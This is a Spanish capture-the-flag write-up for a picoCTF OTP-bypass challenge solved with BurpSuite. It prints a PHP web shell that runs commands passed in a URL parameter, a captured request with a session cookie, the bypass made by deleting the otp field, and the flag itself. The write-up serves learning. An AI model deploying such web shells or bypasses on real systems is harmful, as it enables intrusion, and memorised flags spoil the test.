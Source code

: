### Descripción
Try [here](http://titan.picoctf.net:61945/) to find the flag

Hints:
1. Try using burpsuite to intercept request to capture the flag.
2. Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.
### Solución
Mediante BurpSuite se introducirán los datos obligatorios a la página y al momento de introducir un OTP cualquiera en la petición de BurpSuite aparecerá lo que se envió:

```
PNG
<?php
if(isset($_GET['cmd'])) {
        echo "<pre>";
        system($_GET['cmd']);
        echo "</pre>";
}
?>
```


Esto lo eliminamos y hacemos un forward lo cual hace que desde el sitio ahora si nos mandé la flag al poder entrar:
```
POST /dashboard HTTP/1.1
Host: titan.picoctf.net:61945
Content-Length: 7
Cache-Control: max-age=0
Accept-Language: es-419,es;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Origin: http://titan.picoctf.net:61945
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://titan.picoctf.net:61945/dashboard
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJxVjMsOwiAQRf-FtYsCA0V_poFhiI0tNDxi1PjvjhsTl-fcnPsSuPaHuIinR98JfRMnga2mpZcbZR6MjhLcGbTDORAarQgcgoNoJgthMiGgUzZxl8a2LdnvxJmP-5rZlX4wwWzNLBkP39q91MhOKv0V15JpyWMPVH9yNKp_P-8P1Qwy1g.Z-4fNQ.1dgJfQZrIljDG6_9tJw2bo-zKrY
Connection: keep-alive

otp=123
```

Borrando otp=123 y al hacer el forward nos manda:
```
Welcome, admin you sucessfully bypassed the OTP request. Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}
```

Flag:
picoCTF{#0TP_Bypvss_SuCc3$S_b3fa4f1a}

### Notas adicionales


### Referencias
BurpSuite
